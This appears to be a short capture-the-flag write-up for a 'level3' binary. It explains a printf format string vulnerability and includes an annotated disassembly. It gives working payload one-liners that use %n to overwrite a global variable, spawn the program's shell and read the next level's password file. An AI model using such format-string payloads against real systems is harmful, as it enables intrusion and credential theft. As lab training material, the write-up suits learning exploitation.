 - attack: format string exploitation (adress leaks)
- binary behavior: gets gets argument and send it to printf, if global argument = 64 run the shell
- targeted functions: v and main
- vulnerability in v: printf() without argument (Bugs section in printf man)
- defense: fget

Method:
- do stack leakage
- find in leakage the position of the buffer 
- find the global variable (password)
- overwrite buffer with address of global variable 
- and pass 64 as its value
 
Info:
- poisiton of buffer in stack - 4

- 0x804988c - address global variable
- 8c980408 - same in little-endian
- same in hex - \x8c\x98\x04\x08
- the password - 0x40 or 64

- offset code structure: 64 = 4 (global variable address) + 60 (shell code)


Code:
objdump -d ./level3
 ./level3
%p %p %p %p %p
(python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"';cat) | ./level3
(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; echo "cd ..; cat level4/.pass") | ./level3

cd ..; cat level4/.pass


Functions

0804851a <main>:
 804851a:       55                      push   %ebp
 804851b:       89 e5                   mov    %esp,%ebp
 804851d:       83 e4 f0                and    $0xfffffff0,%esp
 8048520:       e8 7f ff ff ff          call   80484a4 <v>
 8048525:       c9                      leave
 8048526:       c3                      ret



080484a4 <v>:
 80484a4:       55                      push   %ebp
 80484a5:       89 e5                   mov    %esp,%ebp
 80484a7:       81 ec 18 02 00 00       sub    $0x218,%esp
 80484ad:       a1 60 98 04 08          mov    0x8049860,%eax
 80484b2:       89 44 24 08             mov    %eax,0x8(%esp)
 80484b6:       c7 44 24 04 00 02 00    movl   $0x200,0x4(%esp)
 80484bd:       00
 80484be:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484c4:       89 04 24                mov    %eax,(%esp)
 80484c7:       e8 d4 fe ff ff          call   80483a0 <fgets@plt> #defence
 80484cc:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484d2:       89 04 24                mov    %eax,(%esp)
 80484d5:       e8 b6 fe ff ff          call   8048390 <printf@plt> #exploit for attack
 80484da:       a1 8c 98 04 08          mov    0x804988c,%eax 
 80484df:       83 f8 40                cmp    $0x40,%eax # compaison of eax with 64
 80484e2:       75 34                   jne    8048518 <v+0x74> # if equal to 0 
 80484e4:       a1 80 98 04 08          mov    0x8049880,%eax
 80484e9:       89 c2                   mov    %eax,%edx
 80484eb:       b8 00 86 04 08          mov    $0x8048600,%eax
 80484f0:       89 54 24 0c             mov    %edx,0xc(%esp)
 80484f4:       c7 44 24 08 0c 00 00    movl   $0xc,0x8(%esp)
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048503:       00
 8048504:       89 04 24                mov    %eax,(%esp)
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt>
 804850c:       c7 04 24 0d 86 04 08    movl   $0x804860d,(%esp)
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt> #exploit for shell
 8048518:       c9                      leave # jump here if 0
 8048519:       c3                      ret

             